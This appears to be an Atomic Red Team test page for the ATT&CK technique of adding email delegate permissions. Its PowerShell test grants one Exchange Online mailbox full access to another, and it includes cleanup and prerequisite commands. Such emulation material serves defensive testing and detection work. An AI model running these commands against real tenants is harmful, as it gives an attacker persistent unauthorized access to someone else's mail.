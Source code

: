 # T1098.002 - Account Manipulation: Additional Email Delegate Permissions
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/002/)
<blockquote>Adversaries may grant additional permission levels to maintain persistent access to an adversary-controlled email account.

For example, the <code> Add-MailboxPermission </code> PowerShell cmdlet, available in on-premises Exchange and in the cloud-based service Office 365, adds permissions to a mailbox. In Google Workspace, delegation can be enabled via the Google Admin console and users can delegate accounts via their Gmail settings.

Adversaries may also assign mailbox folder permissions through individual folder permissions or roles. In Office 365 environments, adversaries may assign the Default or Anonymous user permissions or roles to the Top of Information Store (root), Inbox, or other mailbox folders. By assigning one or both user permissions to a folder, the adversary can utilize any other account in the tenant to maintain persistence to the target user’s mail folders.

This may be used in persistent threat incidents as well as BEC (Business Email Compromise) incidents where an adversary can add Additional Cloud Roles to the accounts they wish to compromise. This may further enable use of additional techniques for gaining access to systems. For example, compromised business accounts are often used to send messages to other accounts in the network of the target business while creating inbox rules (ex: Internal Spearphishing), so the messages evade spam/phishing detection mechanisms.


## Atomic Tests

- [Atomic Test #1 - Full access mailbox permission granted to a user](#atomic-test-1---full--access--mailbox--permission)

<br/>

## Atomic Test #1 - Full mailbox permission granted to a user


**Supported Platforms:** office-365


**auto_generated_guid:** 17d046be-fdd0-4cbb-b5c7-55c85d9d0714





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | M365 username | string | jonh@contoso.com|
| password | M365 password | string | p4sswd|
| delegate_target | Name of the mailbox targeted by the operator  | string | delegate@contoso.com|
| operator_mailbox | E-mail address of the account which will get full access | string | operator@contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Add-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All
Disconnect-ExchangeOnline -Confirm:$false
```

#### Cleanup Commands:
```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Remove-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All -Confirm:$false
Disconnect-ExchangeOnline -Confirm:$false
```

#### Dependencies:  Run with `powershell`!
##### Description: AzureAD module must be installed.
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
      Install-Module -Name ExchangeOnlineManagement -Force
      Import-Module ExchangeOnlineManagement
```

<br/>

